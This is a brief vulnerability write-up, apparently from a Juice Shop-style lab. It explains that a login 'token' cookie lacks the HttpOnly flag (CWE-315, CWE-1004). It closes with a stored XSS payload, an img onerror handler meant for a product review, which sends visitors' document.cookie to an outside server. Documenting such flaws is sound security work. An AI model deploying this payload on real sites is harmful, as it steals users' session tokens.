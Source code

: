 we can see that a cookie 'token' is stored in browser after login, which is violation of CWE-315: Cleartext Storage of Sensitive Information in a Cookie https://cwe.mitre.org/data/definitions/315.html

but it wasn't stored with httponly, meaning on-page javascript can access that cookie. which is a violation of CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag https://cwe.mitre.org/data/definitions/1004.html

with these, we can craft an xss attack to steal user credential from their browser cookies. 

to do this, we want to put this javascript in one of the product review. so that when other users browse the product, their token gets send back to my server. 

<img src=x onerror="this.src='https://juice.8-thousander.me/?'+document.cookie; this.removeAttribute('onerror');">


